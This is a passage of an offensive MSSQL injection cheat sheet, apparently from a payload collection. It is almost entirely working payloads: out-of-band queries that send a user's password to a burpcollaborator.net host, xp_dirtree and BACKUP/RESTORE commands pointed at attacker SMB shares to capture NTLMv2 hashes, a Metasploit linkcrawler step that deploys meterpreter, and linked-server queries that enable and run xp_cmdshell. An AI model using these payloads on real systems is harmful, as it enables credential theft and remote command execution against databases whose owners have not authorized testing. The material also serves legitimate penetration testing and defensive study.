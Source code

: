 Technique from [@ptswarm](https://twitter.com/ptswarm/status/1313476695295512578/photo/1)

* **Permission**: Requires `VIEW SERVER STATE` permission on the server.

    ```powershell
    1 and exists(select * from fn_xe_file_target_read_file('C:\*.xel','\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\1.xem',null,null))
    ```

* **Permission**: Requires the `CONTROL SERVER` permission.

    ```powershell
    1 (select 1 where exists(select * from fn_get_audit_file('\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\',default,default)))
    1 and exists(select * from fn_trace_gettable('\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\1.trc',default))
    ```

### MSSQL UNC Path

MSSQL supports stacked queries so we can create a variable pointing to our IP address then use the `xp_dirtree` function to list the files in our SMB share and grab the NTLMv2 hash.

```sql
1'; use master; exec xp_dirtree '\\10.10.15.XX\SHARE';-- 
```

```sql
xp_dirtree '\\attackerip\file'
xp_fileexist '\\attackerip\file'
BACKUP LOG [TESTING] TO DISK = '\\attackerip\file'
BACKUP DATABASE [TESTING] TO DISK = '\\attackeri\file'
RESTORE LOG [TESTING] FROM DISK = '\\attackerip\file'
RESTORE DATABASE [TESTING] FROM DISK = '\\attackerip\file'
RESTORE HEADERONLY FROM DISK = '\\attackerip\file'
RESTORE FILELISTONLY FROM DISK = '\\attackerip\file'
RESTORE LABELONLY FROM DISK = '\\attackerip\file'
RESTORE REWINDONLY FROM DISK = '\\attackerip\file'
RESTORE VERIFYONLY FROM DISK = '\\attackerip\file'
```

## MSSQL Trusted Links

> The links between databases work even across forest trusts.

```powershell
msf> use exploit/windows/mssql/mssql_linkcrawler
[msf> set DEPLOY true] # Set DEPLOY to true if you want to abuse the privileges to obtain a meterpreter session
```

Manual exploitation

```sql
-- find link
select * from master..sysservers

-- execute query through the link
select * from openquery("dcorp-sql1", 'select * from master..sysservers')
select version from openquery("linkedserver", 'select @@version as version');

-- chain multiple openquery
select version from openquery("link1",'select version from openquery("link2","select @@version as version")')

-- execute shell commands
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT LinkedServer
select 1 from openquery("linkedserver",'select 1;exec master..xp_cmdshell "dir c:"')

```